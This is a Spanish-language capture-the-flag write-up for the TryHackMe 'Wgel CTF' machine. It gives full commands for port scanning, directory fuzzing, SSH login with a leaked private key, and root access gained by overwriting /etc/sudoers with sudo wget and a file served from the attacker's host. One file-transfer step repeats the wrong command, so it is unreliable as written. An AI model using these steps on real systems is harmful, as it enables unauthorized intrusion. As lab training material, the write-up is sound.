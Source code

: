 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - HTTP
  - FuzzingWeb
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeration|Enumeration]]
	- [[#Enumeration#Ping|Ping]]
	- [[#Enumeration#Nmap|Nmap]]
	- [[#Enumeration#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Exploitation|Exploitation]]
	- [[#Exploitation#SSH|SSH]]
	- [[#Exploitation#Privilege Escalation|Privilege Escalation]]
		- [[#Privilege Escalation#Sudo|Sudo]]

---
# Resolviendo la máquina Wgel CTF

>En este **Write-up** se documenta la resolución de la máquina **Wgel CTF**, categorizada como fácil en [TryHackMe](https://tryhackme.com/room/wgelctf). 
>Durante el proceso se identifican credenciales ocultas, se aprovecha una clave privada **SSH** para acceder al sistema, y finalmente se escala privilegios explotando el binario `wget` mediante la sobrescritura del archivo `sudoers`.

---
## Enumeration
### Ping

`ping -c 1 10.10.71.250`

![[Pasted image 20250817114510.png]]

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.71.250 -oG allPorts`

![[Pasted image 20250817114702.png]]

`nmap -p22,80 -sCV 10.10.71.250 -oN targeted`

![[Pasted image 20250817114727.png]]
### HTTP

`http://10.10.71.250/`

![[Pasted image 20250817114828.png]]

Se revisa el código fuente en busca de comentarios ocultos.

![[Pasted image 20250817115022.png]]

Se encuentra el usuario `jessie`.
#### Fuzzing Web

`gobuster dir -u http://10.10.71.250/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250817120156.png]]

`gobuster dir -u http://10.10.71.250/sitemap/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250817120215.png]]

`gobuster dir -u http://10.10.71.250/sitemap/sass/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250817120229.png]]

Se revisan todos los directorios, y no se encuentra nada. Se procede a realizar **Fuzzing Web** con *dirb*.

![[Pasted image 20250817120334.png]]

Se observa el directorio oculto `/.ssh`.

`http://10.10.71.250/sitemap/.ssh/`

![[Pasted image 20250817120414.png]]

Se encuentra una *id_rsa*.

---
## Exploitation
### SSH

Se descarga la *id_rsa* encontrada anteriormente.

`wget http://10.10.71.250/sitemap/.ssh/id_rsa`

Se da permisos de ejecución al archivo descargado.

`chmod 600 id_rsa`

La clave privada `id_rsa` encontrada probablemente corresponda al usuario `jessie`, por lo que se intenta autenticación por **SSH** con ella.

Se establece conexión al servicio **SSH** (22).

`ssh -i id_rsa jessie@10.10.71.250`

![[Pasted image 20250817120832.png]]
### Privilege Escalation
#### Sudo

`sudo -l`

![[Pasted image 20250817134018.png]]

Se encuentra el binario: `/usr/bin/wget`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/wget/#sudo).

![[Pasted image 20250817134110.png]]

Al ejecutarse `wget` con privilegios sudo, se puede sobrescribir el archivo `/etc/sudoers` y otorgar permisos de superusuario al usuario actual.

Se inicia una escucha por el puerto 80.

`nc -lvp 80 > sudoers`

Desde la máquina víctima se transfiere el archivo `sudoers`.

`sudo /usr/bin/wget 10.8.184.124/sudoers --output-document=sudoers`

`cat sudoers`

![[Pasted image 20250817134323.png]]

Se modifica la última línea de permisos por lo siguiente:

`jessie  ALL=(ALL) NOPASSWD: ALL`

Se comparte el archivo.

`python3 -m http.server 80`

En la máquina víctima, se accede al directorio `/etc` y se descarga el archivo compartido.

`cd /etc`

`sudo /usr/bin/wget 10.8.184.124/sudoers --output-document=sudoers`

Se verifica que el archivo `sudoers` se haya sobrescrito correctamente.

`sudo -l -l`

![[Pasted image 20250817134614.png]]

`sudo su`

![[Pasted image 20250817134645.png]]

Finalmente, se obtiene acceso *root* al sistema.

---